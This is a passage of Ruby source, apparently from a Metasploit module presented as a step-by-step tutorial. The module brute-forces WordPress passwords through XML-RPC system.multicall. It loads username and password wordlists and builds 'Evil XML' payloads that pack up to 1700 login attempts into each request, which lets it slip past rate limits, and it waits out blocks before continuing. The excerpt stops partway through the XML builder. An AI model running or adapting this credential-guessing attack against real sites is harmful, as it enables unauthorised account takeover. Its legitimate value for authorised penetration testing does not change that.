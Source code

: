 ```ruby
        [
          OptString.new('TARGETURI', [true, 'The base path', '/']),
          OptPath.new('WPUSER_FILE', [true, 'File containing usernames, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_users.txt") ]),
          OptPath.new('WPPASS_FILE', [true, 'File containing passwords, one per line',
                                      File.join(Msf::Config.data_directory, "wordlists", "http_default_pass.txt")]),
          OptInt.new('BLOCKEDWAIT', [true, 'Time(minutes) to wait if got blocked', 6]),
          OptInt.new('CHUNKSIZE', [true, 'Number of passwords need to be sent per request. (1700 is the max)', 1500])
        ], self.class)
  end
end
```

- [x] Read username and password lists as arrays 

```ruby
  def usernames
    File.readlines(datastore['WPUSER_FILE']).map {|user| user.chomp}
  end

  def passwords
    File.readlines(datastore['WPPASS_FILE']).map {|pass| pass.chomp}
  end
```

- [x] Build/Generate XML file takes a user and iterate around the passwords

```ruby
  #
  # XML Factory
  #
  def generate_xml(user)

    vprint_warning('Generating XMLs may take a while depends on the list file(s) size.') if passwords.size > 1500
    xml_payloads = []                          # Container for all generated XMLs
    # Evil XML | Limit number of log-ins to CHUNKSIZE/request due WordPress limitation which is 1700 maximum.
    passwords.each_slice(datastore['CHUNKSIZE']) do |pass_group|

      document = Nokogiri::XML::Builder.new do |xml|
        xml.methodCall {
          xml.methodName("system.multicall")
          xml.params {
          xml.param {
          xml.value {
          xml.array {
          xml.data {

        pass_group.each  do |pass|
          xml.value {
          xml.struct {
          xml.member {
          xml.name("methodName")
          xml.value { xml.string("wp.getUsersBlogs") }}
            xml.member {
            xml.name("params")
            xml.value {
            xml.array {
            xml.data {
            xml.value {
            xml.array {
```